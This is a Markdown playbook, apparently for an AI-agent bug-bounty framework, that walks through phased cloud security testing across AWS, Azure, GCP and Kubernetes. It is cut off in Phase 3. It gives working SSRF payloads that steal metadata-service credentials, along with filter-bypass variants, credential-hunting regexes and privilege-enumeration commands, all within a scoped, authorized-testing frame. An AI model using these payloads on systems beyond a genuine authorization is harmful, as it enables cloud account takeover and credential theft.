

# W_HUNT_CLOUD — Cloud Security Assessment Workflow

## Overview

Provider-agnostic-to-provider-deep cloud attack workflow covering AWS, Azure, GCP, and Kubernetes. It walks the real attacker flow — recon and attribution, foothold-to-cloud-session pivot, identity profiling, IAM privilege escalation, object storage, compute and serverless exfil, secrets, network and data services, Kubernetes, and the CI/CD supply chain — then aggregates through ValidatorAgent and ExploitChainAgent into a single report. Every phase runs profile-before-attack, hypothesis-driven, with all provider API and web traffic proxied through Burp and every artifact written to the run output directory.

Engagement keys (see `Tools/agent-router.ts`): `cloud` (provider unknown), `cloud-aws`, `cloud-azure`, `cloud-gcp`, `kubernetes`. Aliases `aws|azure|gcp|k8s|container` resolve automatically.

---

## Operating Doctrine

The mindset a senior cloud-security lead brings to every cloud engagement:

- **Understand before you attack.** A cloud account is a graph of identities, trust relationships, and resource policies. Map who-can-do-what-to-what (the IAM graph) before firing a single mutating call. Most cloud compromise is identity misconfiguration, not memory corruption — the bug is almost always a policy.
- **Hypothesis-driven, not scanner-driven.** ScoutSuite/Prowler/cloudfox produce hundreds of findings; they are leads, not conclusions. Form a specific privesc/exfil hypothesis ("this Lambda role can be passed by my user, and the function can read Secrets Manager"), then test exactly that path.
- **Proxy everything.** Route every provider control-plane call (aws/az/gcloud/kubectl, and the boto/requests-based tools: pacu, ScoutSuite, Prowler, cloudfox, ROADtools) through Burp at `http://127.0.0.1:8080` with the Burp CA trusted, so every request/response is captured, replayable, and diffable. Web/console and SSRF testing go through the authenticated browser harness, never raw clients.
- **Evidence capture is non-negotiable.** Capture caller identity, the exact API call, the raw signed request (from Burp history/HAR), the response, and a timestamp for every finding. A privesc you cannot reproduce on demand is not a finding.
- **Scope discipline is the difference between a pentest and an incident.** Operate only inside authorized account IDs / subscription IDs / project IDs. Assert identity-in-scope before every call. Never pivot to an out-of-scope tenant even when trust allows it — document the path instead.
- **Read before write; profile before mutate.** Enumeration is read-only. Privilege-escalation proof and post-exploitation are mutating and run only in sandboxed sessions with operator confirmation. No auto-destructive actions, ever (no delete/terminate/stop/detach; snapshots copied only into the authorized account).
- **Depth vs breadth.** Breadth first across all providers/services to find the highest-value path (identity to data, or identity to compute-to-data); then go deep on the one chain that reaches crown-jewel data or full account/cluster control. One proven account-takeover chain beats fifty "public-read" informationals.

---

## Pre-Flight

Run once before any phase. Establishes proxy wiring, scope guard, identities, vaulted creds, and the artifact directory. Nothing below fires until Burp is alive and the scope guard passes.

### Environment, proxy, and artifacts

```bash
export TOOLS=~/.claude/skills/BugBountyFramework/Tools
export TARGET_SLUG=acme-cloud                 # one slug per engagement
export RUN=~/.claude/MEMORY/BugBounty/Sessions/$TARGET_SLUG/cloud
mkdir -p "$RUN"/{recon,foothold,iam,storage,compute,secrets,network,k8s,supplychain,loot,evidence}
export RECON=~/.claude/MEMORY/BugBounty/Sessions/$TARGET_SLUG/recon   # ReconWorkflow (W_RECON) hand-off — read-only inputs (canonical Sessions/ path, matches hunt-orchestrator.ts)

# Browser User-Agent for any direct HTTP (metadata probes, bucket fetches, console)
export UA='Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36'

# Route every CLI/SDK through Burp and trust the Burp CA so TLS to provider APIs is captured
export HTTP_PROXY=http://127.0.0.1:8080
export HTTPS_PROXY=http://127.0.0.1:8080
export NO_PROXY=169.254.169.254,metadata.google.internal   # never proxy link-local metadata
export BURP_CA="$HOME/.config/burp/cacert.pem"             # Burp -> export CA cert (DER) -> openssl x509 -inform der -in cacert.der -out cacert.pem
export AWS_CA_BUNDLE="$BURP_CA"            # boto3/aws CLI honor this
export REQUESTS_CA_BUNDLE="$BURP_CA"       # pacu/ScoutSuite/Prowler/cloudfox/ROADtools (requests/boto)
export NODE_EXTRA_CA_CERTS="$BURP_CA"      # node-based tooling and harness
export CURL_CA_BUNDLE="$BURP_CA"

# gcloud has no env proxy; configure explicitly
gcloud config set proxy/type http   2>/dev/null
gcloud config set proxy/address 127.0.0.1 2>/dev/null
gcloud config set proxy/port 8080   2>/dev/null
gcloud config set core/custom_ca_certs_file "$BURP_CA" 2>/dev/null
```

### Recon hand-off ingestion

ReconWorkflow (`W_RECON`) writes a prioritized attack-surface inventory to `$RECON`. Read it first — it seeds provider attribution and public-asset candidates so P1 confirms rather than rediscovers. Treat every file as read-only input.

```bash
cat "$RECON/reports/handoff-notes.md"               # look for the "-> W_CLOUD" block
cat "$RECON/reports/high-priority-targets.txt"      # ranked targets to attack first
jq . "$RECON/reports/attack-surface-inventory.json" # full structured inventory
ls "$RECON"/{cloud,scope,hosts,tech,ports,content,js,leaks,takeover} 2>/dev/null
#   cloud/buckets-public.txt  cloud/firebase-open.txt  cloud/cloud-app-domains.txt  cloud/saas-footprint.txt
#   scope/asns.txt  scope/cidrs.txt   hosts/live-ips.txt   tech/httpx-tech.json
```

Validated cloud credentials surfaced during recon arrive through SecretsExposureAgent (consumed in P2.5 / P7), not by reading recon files directly.

### Burp wiring + scope

```bash
# Confirm proxy + REST API are live, fall back to mitmproxy if not
bun "$TOOLS/burp-bridge.ts" --health

# Push the authorized scope into Burp so out-of-scope traffic is dropped/flagged
bun "$TOOLS/burp-bridge.ts" --sync-scope --scope \
  "*.amazonaws.com,*.blob.core.windows.net,*.azure.com,*.googleapis.com,*.acme.com,console.aws.amazon.com,portal.azure.com,console.cloud.google.com"
```

### Vaulted credentials and multi-identity setup

Never inline secrets in commands or artifacts. Pull starting creds from the vault and bind named profiles. Maintain at least two identities so every privesc claim is provable as a real boundary crossing.

```bash
# Pull starting material (keys/tokens) — values stay in the vault, redacted in logs
bun "$TOOLS/credential-vault.ts" --get --target "$TARGET_SLUG-lowpriv"
bun "$TOOLS/credential-vault.ts" --get --target "$TARGET_SLUG-admin"   # baseline/validation identity if provided

# AWS: low-priv attacker profile vs a known-good baseline for validation
#   ~/.aws/credentials -> [lowpriv] and [baseline]
aws --profile lowpriv  sts get-caller-identity
aws --profile baseline sts get-caller-identity   # only to confirm a boundary was crossed

# Azure: low-priv principal vs a privileged reviewer (do NOT activate PIM as the attacker)
az login --service-principal -u "$SP_APPID" -p "$SP_SECRET" --tenant "$TENANT"   # secrets via env, never literal

# GCP: low-priv service account vs project baseline
gcloud auth activate-service-account --key-file "$RUN/loot/lowpriv-sa.json"
```

| Identity | Role in the hunt |
|----------|------------------|
| `lowpriv` | The attacker's starting context (leaked key, SSRF-stolen token, foothold SA). Every privesc starts here. |
| `baseline`/reviewer | Read-only confirmation that a resource/permission existed before the attacker reached it — kills "it was always mine" false positives. |
| `escalated` (ephemeral) | The session minted by a successful privesc, used only in a sandbox to prove impact, then revoked. |

### Hard scope guard (assert before every mutating call)

```bash
cat > "$RUN/scope.allow" <<'EOF'
aws:111122223333
aws:444455556666
azure:00000000-1111-2222-3333-444444444444
gcp:acme-prod-1234
gcp:acme-staging-5678
EOF

scope_guard() {  # usage: scope_guard aws|azure|gcp  <id>
  grep -qx "$1:$2" "$RUN/scope.allow" || { echo "[SCOPE-BLOCK] $1:$2 not authorized"; return 1; }
}
# AWS example: refuse to continue if the active identity is outside scope
ACC=$(aws --profile lowpriv sts get-caller-identity --query Account --output text)
scope_guard aws "$ACC" || exit 1
```

### Sandbox + non-destructive doctrine

- Post-exploitation (privesc proof, role assumption, snapshot copy, function deploy) runs only after a positive enumeration hypothesis and only in a sandboxed session.
- Prefer dry-run / simulate first: `aws iam simulate-principal-policy`, `--cli-auto-prompt`, `pacu` in enum/scan modes, ScoutSuite/Prowler/cloudfox read-only.
- No auto-destructive verbs: never `delete-*`, `terminate-*`, `stop-*`, `detach-*`, `rm`, `destroy`. Copy snapshots only into the authorized account; tear down anything created and log it to `$RUN/cleanup.log`.

### Surface the external per-domain toolbelt

```bash
piranha tools cloud-aws      # prints versions/paths for pacu, scout, cloudfox, prowler, aws
piranha tools cloud-azure    # ScoutSuite-azure, ROADtools/roadrecon, AzureHound, az, prowler azure
piranha tools cloud-gcp      # scout gcp, gcloud, prowler gcp
piranha tools kubernetes     # kube-hunter, peirates, kdigger, kubectl, trivy
```

---

## Coverage Matrix

Authoritative cloud attack-surface checklist mapped to the phase/technique that covers it. Nothing on this list is allowed to go untested.

| Checklist item | Provider | Phase / Technique | Owning agent |
|----------------|----------|-------------------|--------------|
| Cloud asset / ASN / IP-range attribution | all | P1 · Attribution & ASN mapping | ReconAgent |
| Bucket / blob / GCS discovery (public) | all | P1 · Public storage discovery | ReconAgent |
| Provider fingerprint (which cloud) | all | P1 · Provider fingerprinting | ReconAgent |
| SSRF → IMDSv1 credential theft | AWS | P2 · SSRF→IMDSv1 | SSRFAgent → CloudExploitationAgent |
| SSRF → IMDSv2 (token-flow) theft | AWS | P2 · SSRF→IMDSv2 | SSRFAgent → CloudExploitationAgent |
| SSRF → Azure managed-identity token | Azure | P2 · SSRF→Azure IMDS | SSRFAgent → CloudExploitationAgent |
| SSRF → GCP metadata SA token | GCP | P2 · SSRF→GCP metadata | SSRFAgent → CloudExploitationAgent |
| Leaked long-lived keys / env / files | all | P2 · Leaked key & env ingestion | CloudExploitationAgent |
| Session profiling (whoami, enum perms) | all | P3 · Identity & permission enumeration | CloudExploitationAgent / provider agents |
| AWS privesc: CreatePolicyVersion | AWS | P4 · AWS IAM privesc #1 | AWSAgent |
| AWS privesc: AttachUserPolicy / Put*Policy | AWS | P4 · AWS IAM privesc #2 | AWSAgent |
| AWS privesc: CreateAccessKey / login profile | AWS | P4 · AWS IAM privesc #3 | AWSAgent |
| AWS privesc: AssumeRole / role chaining | AWS | P4 · AWS IAM privesc #4 | AWSAgent |
| AWS privesc: PassRole + Lambda | AWS | P4 · AWS IAM privesc #5 | AWSAgent |
| AWS privesc: PassRole + EC2/Glue/SageMaker/CloudFormation/DataPipeline | AWS | P4 · AWS IAM privesc #6 | AWSAgent |
| Azure: Entra (directory) roles vs RBAC | Azure | P4 · Azure identity privesc | AzureAgent |
| Azure: managed identity abuse | Azure | P4 · Azure managed-identity privesc | AzureAgent |
| Azure: consent / OAuth app phishing | Azure | P4 · Azure consent abuse | AzureAgent / AuthAgent |
| GCP: SA impersonation / actAs | GCP | P4 · GCP impersonation privesc | GCPAgent |
| GCP: IAM binding self-grant | GCP | P4 · GCP IAM-binding privesc | GCPAgent |
| S3 public ACL / policy / takeover | AWS | P5 · S3 misconfig & takeover | AWSAgent |
| GCS public IAM / ACL / takeover | GCP | P5 · GCS misconfig & takeover | GCPAgent |
| Azure Blob public access / takeover | Azure | P5 · Blob misconfig & takeover | AzureAgent |
| Signed/pre-signed URL abuse | all | P5 · Signed-URL abuse | provider agents |
| EC2/VM snapshot exposure & exfil | all | P6 · Snapshot exfil | provider agents → CloudExploitationAgent |
| User-data / custom-data secret exfil | all | P6 · User-data exfil | provider agents |
| Lambda / Functions / Cloud Run exploit | all | P6 · Serverless exploitation | provider agents → RCEAgent |
| Secrets Manager / Key Vault / Secret Manager | all | P7 · Managed secret stores | SecretsExposureAgent |
| SSM Parameter Store / app config secrets | AWS | P7 · Parameter-store secrets | SecretsExposureAgent |
| Public RDS / Cloud SQL / snapshots | all | P8 · Data-service exposure | provider agents |
| Security groups / NSG / firewall 0.0.0.0/0 | all | P8 · Network exposure | provider agents |
| K8s RBAC privilege escalation | k8s | P9 · RBAC privesc | KubernetesAgent |
| Exposed API server / kubelet / etcd | k8s | P9 · Control-plane exposure | KubernetesAgent |
| Service-account token abuse | k8s | P9 · SA-token abuse | KubernetesAgent |
| Pod → node & container escape | k8s | P9 · Node escape | KubernetesAgent |
| GitHub Actions OIDC trust abuse | ci/cd | P10 · OIDC trust abuse | SupplyChainAgent |
| Poisoned Pipeline Execution (PPE) | ci/cd | P10 · PPE | SupplyChainAgent |
| Unpinned / mutable actions | ci/cd | P10 · Action pinning | SupplyChainAgent |
| Dependency confusion | ci/cd | P10 · Dependency confusion | SupplyChainAgent |
| Leaked registry / CI tokens | ci/cd | P10 · CI/registry token leak | SupplyChainAgent / SecretsExposureAgent |
| Findings validation / de-dup / CVSS | all | P11 · Validation | ValidatorAgent |
| Kill-chain correlation / combined CVSS | all | P11 · Chaining | ExploitChainAgent |

---

## Dispatch Map

Engagement `cloud` plus provider variants `cloud-aws | cloud-azure | cloud-gcp | kubernetes`. Confirm the live plan with `bun "$TOOLS/agent-router.ts" --engagement cloud-aws --json`.



---

## Phase 1: RECON & ATTRIBUTION

**Objective:** Attribute the target's cloud footprint (accounts, ASNs/IP ranges, regions), fingerprint the provider(s), and discover publicly reachable storage and metadata-adjacent surfaces — all before holding any credential.

**Expert rationale:** You cannot scope IAM or storage attacks until you know which provider, which account/subscription/project, and which public assets exist. Attribution also tells you where a future SSRF should point (which metadata endpoint) and which buckets to fingerprint for takeover.

**Gate-in:** Authorized scope file present (`$RUN/scope.allow`); Burp alive; recon hand-off available at `$RECON` (ReconWorkflow writes `reports/handoff-notes.md` with a `-> W_CLOUD` block); at least one in-scope domain, IP range, or known account/subscription/project ID.

### Technique 1.1 — Provider fingerprinting

- **Objective / hypothesis:** A given host or app is served from a specific cloud; identifying it dictates every downstream metadata and storage technique.
- **Procedure:**
  ```bash
  # Inputs come from the recon hand-off (ReconWorkflow): live IPs + cloud app domains
  cat "$RECON/hosts/live-ips.txt" "$RECON/cloud/cloud-app-domains.txt" 2>/dev/null | sort -u > "$RUN/recon/hosts.txt"

  # Reverse DNS / CNAME signals — proxied so Burp records the lookups it can
  while read h; do
    dig +short "$h"; dig +short CNAME "$h"
  done < "$RUN/recon/hosts.txt" | tee "$RUN/recon/dns.txt"

  # HTTP response fingerprints (Server, x-amz-*, x-ms-*, x-goog-*, via header), browser UA
  while read h; do
    curl -sk -A "$UA" -D - "https://$h" -o /dev/null \
      | grep -iE 'server:|x-amz|x-ms-|x-goog|x-azure|via:|cf-ray' \
      | sed "s#^#$h  #"
  done < "$RUN/recon/hosts.txt" | tee "$RUN/recon/provider-fp.txt"

  # Reuse recon's httpx tech fingerprint to short-circuit provider attribution
  jq -r '.[]? | "\(.url)  \(.tech // .technologies)"' "$RECON/tech/httpx-tech.json" 2>/dev/null \
    | grep -iE 'amazon|aws|s3|azure|cloudfront|gcp|google|firebase' | tee -a "$RUN/recon/provider-fp.txt"

  # IP -> cloud ownership (AWS ip-ranges, Azure ServiceTags, GCP cloud.json)
  curl -s -A "$UA" https://ip-ranges.amazonaws.com/ip-ranges.json -o "$RUN/recon/aws-ranges.json"
  curl -s -A "$UA" https://www.gstatic.com/ipranges/cloud.json     -o "$RUN/recon/gcp-ranges.json"
  ```
- **Indicators:** `x-amz-request-id`/`Server: AmazonS3` (AWS), `x-ms-request-id`/`*.blob.core.windows.net` (Azure), `x-goog-*`/`Server: UploadServer` (GCP); target IP falls inside a published provider range.
- **Validation:** Two independent signals agree (DNS chain + header, or header + IP-range membership). Cross-check the IP against the downloaded range files, not memory.
- **Evasion / edge cases:** Front-door CDNs (CloudFront/Front Door/Cloud CDN) mask the origin — fingerprint origin via error pages, TLS SAN, and signed-URL formats, not just edge headers. Multi-cloud targets need per-host attribution.
- **Severity:** Informational (enables everything else). No CVSS.
- **Dispatch:** -> ReconAgent

### Technique 1.2 — Attribution & ASN/IP-range mapping

- **Objective / hypothesis:** Enumerate the full owned IP space and account/sub/project identifiers so the engagement boundary is concrete and complete.
- **Procedure:**
  ```bash
  # Prefer recon's attribution; fall back to live ASN expansion
  cat "$RECON/scope/asns.txt"  2>/dev/null | tee "$RUN/recon/asns.txt"
  cat "$RECON/scope/cidrs.txt" 2>/dev/null | tee "$RUN/recon/prefixes.txt"
  # Expand any ASN the recon set lists but did not resolve to prefixes
  for asn in $(grep -oE 'AS[0-9]+' "$RUN/recon/asns.txt" 2>/dev/null | sort -u); do
    whois -h whois.radb.net -- "-i origin $asn" | awk '/route:/ {print $2}'
  done | sort -u | tee -a "$RUN/recon/prefixes.txt"

  # If holding any cred, record authoritative account identity (read-only)
  aws --profile lowpriv sts get-caller-identity | tee "$RUN/recon/aws-id.json"
  az account list -o json | tee "$RUN/recon/azure-subs.json"
  gcloud projects list --format=json | tee "$RUN/recon/gcp-projects.json"
  ```
- **Indicators:** Concrete account IDs / subscription GUIDs / project IDs; prefix list that overlaps the published cloud ranges from 1.1.
- **Validation:** Every discovered ID is cross-checked against `$RUN/scope.allow`; out-of-scope IDs are recorded and excluded, never probed.
- **Evasion / edge cases:** Shared accounts and Organizations/Management-Group hierarchies — enumerate `aws organizations list-accounts`, `az account management-group`, `gcloud organizations list` only if authorized.
- **Severity:** Informational.
- **Dispatch:** -> ReconAgent

### Technique 1.3 — Public storage discovery

- **Objective / hypothesis:** Public buckets/containers tied to the org leak data and are takeover candidates; enumerating them early seeds Phase 5.
- **Procedure:**
  ```bash
  # Seed candidates from the recon hand-off (already-found public buckets + SaaS footprint), then add cloudfox + keyword guesses
  cat "$RECON/cloud/buckets-public.txt" "$RECON/cloud/saas-footprint.txt" 2>/dev/null \
    | grep -oE '[a-z0-9][a-z0-9.-]+' | sort -u > "$RUN/recon/bucket-candidates.txt"
  cloudfox aws --profile lowpriv buckets 2>/dev/null | tee "$RUN/recon/cf-buckets.txt" \
    | awk '{print $NF}' >> "$RUN/recon/bucket-candidates.txt"
  sort -u -o "$RUN/recon/bucket-candidates.txt" "$RUN/recon/bucket-candidates.txt"

  while read b; do
    code=$(curl -sk -A "$UA" -o /dev/null -w '%{http_code}' "https://$b.s3.amazonaws.com/")
    echo "$code  s3://$b"
  done < "$RUN/recon/bucket-candidates.txt" | tee "$RUN/recon/s3-probe.txt"

  # Exposed Firebase RTDB / open Firestore from recon (frequently world-readable)
  while read fb; do
    curl -sk -A "$UA" "https://$fb.firebaseio.com/.json?print=pretty" -o /dev/null -w "%{http_code}  $fb\n"
  done < "$RECON/cloud/firebase-open.txt" 2>/dev/null | tee "$RUN/recon/firebase-probe.txt"

  # Azure blob containers and GCS, unauthenticated
  curl -sk -A "$UA" "https://$ACCT.blob.core.windows.net/$CONTAINER?restype=container&comp=list"
  curl -sk -A "$UA" "https://storage.googleapis.com/$BUCKET/"
  ```
- **Indicators:** HTTP 200 + listable XML/JSON index (public list), 403 `AccessDenied` but bucket exists (named, possibly object-readable), 404 `NoSuchBucket` on a CNAME-referenced bucket (takeover candidate).
- **Validation:** Distinguish list-permission from object-read: a 403 on list may still allow `GetObject` on guessed keys. Re-test with `--no-sign-request` and a known key path.
- **Evasion / edge cases:** Region-specific endpoints (`s3.<region>.amazonaws.com`), requester-pays buckets, and dualstack endpoints. Rate-limit candidate probing to avoid provider throttling (sleep + jitter).
- **Severity:** Informational here; confirmed public PII escalates in Phase 5.
- **Dispatch:** -> ReconAgent

**Phase artifacts:** `$RUN/recon/{hosts.txt,provider-fp.txt,dns.txt,asns.txt,prefixes.txt,*-id.json,*-subs.json,*-projects.json,s3-probe.txt,firebase-probe.txt,cf-buckets.txt}` (seeded from the recon hand-off under `$RECON`); Burp HAR `bun "$TOOLS/burp-bridge.ts" --export-har --output "$RUN/recon/recon.har"`.

**Gate-out:** Provider(s) identified for in-scope hosts; account/sub/project IDs confirmed in scope; public-storage candidate list produced. Proceed to P2 if any foothold vector exists (app SSRF, leaked key, exposed file); otherwise jump to P5 to monetize public storage and P8 for public data services. Parallelizable: 1.1/1.2/1.3 run concurrently.

---

## Phase 2: FOOTHOLD → CLOUD SESSION

**Objective:** Convert an application-layer foothold (SSRF, leaked credential, arbitrary file read, exposed env) into a usable, scoped cloud session, then identify the provider from the stolen material.

**Expert rationale:** The single highest-yield cloud pivot is SSRF-to-metadata. IMDS hands out role credentials with no further auth; managed identities and GCP default SAs do the same. This phase is where a "medium" web bug becomes cloud account access.

**Gate-in:** Provider fingerprint from P1; an app in scope that may reach link-local metadata, OR leaked keys/files in scope. Burp + Collaborator ready.

### Technique 2.1 — SSRF → AWS IMDSv1 credential theft

- **Objective / hypothesis:** A server-side request feature can fetch `169.254.169.254`; if IMDSv1 is enabled, role creds are one GET away.
- **Procedure:** Drive the SSRF through the authenticated browser harness so cookies/CSRF are intact and traffic is captured:
  ```bash
  bun "$TOOLS/playwright-harness.ts" --target "https://app.acme.com" \
    --proxy http://127.0.0.1:8080 --auth-cookie "$(bun "$TOOLS/credential-vault.ts" --get --target "$TARGET_SLUG-lowpriv" | jq -r .cookie)" \
    --mode test
  ```
  Then submit the SSRF parameter pointing at IMDS (via the app, captured in Burp Repeater):
  ```
  url=http://169.254.169.254/latest/meta-data/iam/security-credentials/
  url=http://169.254.169.254/latest/meta-data/iam/security-credentials/<ROLE>
  ```
  Save the JSON creds to the vault, never to a flat file:
  ```bash
  # paste captured creds via env, store in vault (redacted on write)
  bun "$TOOLS/credential-vault.ts" --store --target "$TARGET_SLUG-imds" \
    --api-key "$AKID" --password "$SECRET" --jwt "$TOKEN"
  ```
- **Indicators:** JSON body with `AccessKeyId`/`SecretAccessKey`/`Token`/`Expiration`; HTTP 200 with no token header required.
- **Validation:** `AWS_ACCESS_KEY_ID=... AWS_SESSION_TOKEN=... aws sts get-caller-identity` returns the EC2 role ARN; `scope_guard aws <acct>` passes. Confirms live, in-scope creds.
- **Evasion / edge cases:** Filter bypass for `169.254.169.254` — try decimal `http://2852039166/`, IPv6-mapped `http://[::ffff:169.254.169.254]/`, DNS rebinding, and `http://169.254.169.254.nip.io/`. Use the AWS-internal alias `http://instance-data/latest/...`. For redirect-based SSRF, point at an attacker host that 302s to IMDS.
- **Severity:** Critical. CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:N ~9.3; business impact = cloud account access from an unauthenticated/low-priv web request.
- **Dispatch:** SSRFAgent (confirms SSRF) -> CloudExploitationAgent (operationalizes the session)

### Technique 2.2 — SSRF → AWS IMDSv2 (token-flow) theft

- **Objective / hypothesis:** IMDSv2 requires a PUT to obtain a token; if the SSRF can issue PUT (or set the TTL header), v2 is still reachable.
- **Procedure (through the app/Burp):**
  ```
  # Step 1: PUT for a session token (header injection or method control in the SSRF)
  PUT http://169.254.169.254/latest/api/token
      X-aws-ec2-metadata-token-ttl-seconds: 21600
  # Step 2: GET creds with the token
  GET http://169.254.169.254/latest/meta-data/iam/security-credentials/<ROLE>
      X-aws-ec2-metadata-token: <TOKEN>
  ```
- **Indicators:** PUT returns a token string; subsequent GET returns role creds. A 401 on GET-without-token confirms v2 is enforced (and that v1 path 2.1 is closed).
- **Validation:** Same `sts get-caller-identity` check as 2.1.
- **Evasion / edge cases:** Many SSRF primitives only do GET — look for `gopher://`/method smuggling, or chained header-injection. `HttpPutResponseHopLimit=1` blocks containerized pods from reaching IMDS even on the same host; note when this defense is present.
- **Severity:** Critical (same as 2.1).
- **Dispatch:** SSRFAgent -> CloudExploitationAgent

### Technique 2.3 — SSRF → Azure managed-identity token

- **Objective / hypothesis:** Azure VMs/App Services with a managed identity expose IMDS that mints AAD tokens for any resource audience.
- **Procedure (via app SSRF, `Metadata: true` header required):**
  ```
  GET http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/
      Metadata: true
  # App Service uses IDENTITY_ENDPOINT + IDENTITY_HEADER instead of 169.254
  GET %IDENTITY_ENDPOINT%?resource=https://vault.azure.net&api-version=2019-08-01
      X-IDENTITY-HEADER: %IDENTITY_HEADER%
  ```
- **Indicators:** JSON with `access_token`, `resource`, `expires_on`; the `Metadata: true` header gate is satisfied.
- **Validation:** `az account get-access-token` equivalent — use the token against ARM: `curl -A "$UA" -H "Authorization: Bearer $TOKEN" https://management.azure.com/subscriptions?api-version=2020-01-01` returns in-scope subscriptions.
- **Evasion / edge cases:** Request multiple `resource=` audiences (ARM, Key Vault `https://vault.azure.net`, Graph `https://graph.microsoft.com`) — each is a different blast radius. App Service/Functions use the header-based endpoint, not 169.254; harvest both env vars first if a file-read primitive exists.
- **Severity:** Critical. ~9.1 (S:C/C:H/I:H) depending on the identity's RBAC.
- **Dispatch:** SSRFAgent -> CloudExploitationAgent -> AzureAgent

### Technique 2.4 — SSRF → GCP metadata SA token

- **Objective / hypothesis:** GCE/Cloud Run instances expose a metadata server that returns OAuth tokens for the attached service account.
- **Procedure (via app SSRF, `Metadata-Flavor: Google` required):**
  ```
  GET http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token
      Metadata-Flavor: Google
  GET http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/email
      Metadata-Flavor: Google
  GET http://metadata.google.internal/computeMetadata/v1/instance/attributes/   # startup-script secrets
      Metadata-Flavor: Google
  ```
- **Indicators:** JSON with `access_token`, `expires_in`, `token_type: Bearer`; SA email returned.
- **Validation:** `curl -A "$UA" -H "Authorization: Bearer $TOKEN" https://cloudresourcemanager.googleapis.com/v1/projects/<PROJECT>:getIamPolicy` (or `tokeninfo`) succeeds for an in-scope project.
- **Evasion / edge cases:** The `Metadata-Flavor: Google` header is mandatory — SSRF must inject a custom header or the request is rejected (this is the v1-style mitigation). Try `?recursive=true` for full dump, and the numeric IP `169.254.169.254`. Request token with explicit `?scopes=` to widen.
- **Severity:** Critical. ~9.1 depending on SA bindings.
- **Dispatch:** SSRFAgent -> CloudExploitationAgent -> GCPAgent

### Technique 2.5 — Leaked key / env / file ingestion

- **Objective / hypothesis:** Long-lived keys leak in source, JS bundles, `.env`, error pages, public buckets, or CI logs; any of them is a direct session.
- **Procedure:**
  ```bash
  # Hunt leaked material in already-collected artifacts and public surfaces
  trufflehog filesystem "$RUN/recon" --json | tee "$RUN/foothold/secrets.json"
  grep -RInE 'AKIA[0-9A-Z]{16}|ASIA[0-9A-Z]{16}|aws_secret|AccountKey=|"private_key":|ya29\.' "$RUN/recon" \
    | tee "$RUN/foothold/key-hits.txt"
  # Store, never echo to disk; then identify
  bun "$TOOLS/credential-vault.ts" --store --target "$TARGET_SLUG-leaked" --api-key "$AKID" --password "$SECRET"
  ```
- **Indicators:** `AKIA…`/`ASIA…` + secret pair, Azure `AccountKey=`/SAS `sig=`, GCP `service_account` JSON with `private_key`, `ya29.` OAuth tokens.
- **Validation:** `sts get-caller-identity` / `az account show` / `gcloud auth list` confirms the key is live and in scope; dead/rotated keys are discarded.
- **Evasion / edge cases:** Canary tokens — some leaked keys are tripwires; a `get-caller-identity` that returns an `*-canarytokens-*` account is a honeypot, stop immediately. `ASIA…` are temporary (need session token + not expired).
- **Severity:** Critical if live with real permissions. Vector scales with the principal's policy.
- **Dispatch:** -> CloudExploitationAgent

**Phase artifacts:** vaulted sessions (`*-imds`, `*-leaked`), `$RUN/foothold/{secrets.json,key-hits.txt}`, Burp Collaborator log for blind SSRF (`bun "$TOOLS/burp-bridge.ts" --collaborator-poll | tee "$RUN/foothold/oob.jsonl"`), HAR of the SSRF exchange.

**Gate-out:** At least one live, in-scope cloud session minted and validated by `get-caller-identity`/equivalent. Record which identity (role/SA/managed-identity/user). Proceed to P3. If no foothold, continue with unauthenticated P5/P8 only.

---

## Phase 3: IDENTITY & ACCESS ENUMERATION

**Objective:** With a session in hand, exhaustively profile what the identity can do — permissions, roles, trust relationships, and reachable resources — building the IAM graph that drives every later attack. Read-only.

**Expert rationale:** Privilege escalation is graph traversal. You must know the current node's edges (permissions), the reachable nodes (assumable roles, impersonable SAs, attachable policies), and the high-value sinks (admin, data) before you move. Brute-forcing privesc without this map is noisy and misses paths.

**Gate-in:** A validated session from P2 (or provided creds). Proxy + scope guard active.

### Technique 3.1 — Permission enumeration (no-deny mapping)

- **Objective / hypothesis:** Determine the exact allowed actions of the current identity, including hidden inline/attached/group/role-inherited permissions.
- **Procedure:**
  ```bash
  # AWS — authoritative dump if iam:Get*/List* allowed, else infer
  aws --profile lowpriv iam get-account-authorization-details > "$RUN/iam/aws-authz.json" 2>/dev/null
  # Permission inference when listing is denied (enumerate-iam brute, read-only API probes)
  python3 enumerate-iam.py --access-key "$AKID" --secret-key "$SECRET" --session-token "$TOKEN" \
    --region us-east-1 | tee "$RUN/iam/enumerate-iam.txt"

  # Pacu — import and enumerate (enum modules only)
  pacu <<'PACU'
  import_keys lowpriv
  run iam__enum_permissions
  run iam__enum_users_roles_policies_groups
  PACU

  # Azure — current principal, role assignments, app roles
  az ad signed-in-user show -o json > "$RUN/iam/azure-me.json" 2>/dev/null
  az role assignment list --all --assignee "$(az account show --query user.name -o text)" -o json \
    > "$RUN/iam/azure-rbac.json"
  # GCP — testable permissions against project
  gcloud projects get-iam-policy "$PROJECT" --format=json > "$RUN/iam/gcp-policy.json"
  gcloud iam service-accounts list --format=json > "$RUN/iam/gcp-sas.json"
  ```
- **Indicators:** A concrete allow-set; wildcards (`Action:"*"`, `Resource:"*"`), `iam:*`, `sts:AssumeRole`, `iam:PassRole`, Azure `Owner`/`User Access Administrator`, GCP `roles/owner`/`iam.serviceAccountTokenCreator`.
- **Validation:** Cross-check inferred permissions with `aws iam simulate-principal-policy` (authoritative) where `iam:SimulatePrincipalPolicy` is allowed; do not trust brute-force alone.
- **Evasion / edge cases:** `enumerate-iam`/pacu generate CloudTrail noise — note that detection may follow. SCPs/permission boundaries can deny what a policy allows; an `Allow` is not effective access until simulated/tested.
- **Severity:** Informational (drives P4+).
- **Dispatch:** -> CloudExploitationAgent (then provider agent)

### Technique 3.2 — Trust, role, and resource-graph mapping

- **Objective / hypothesis:** Enumerate assumable roles, impersonable SAs, cross-account/tenant trust, and resource policies that name the current principal.
- **Procedure:**
  ```bash
  # AWS — trust policies and resource policies
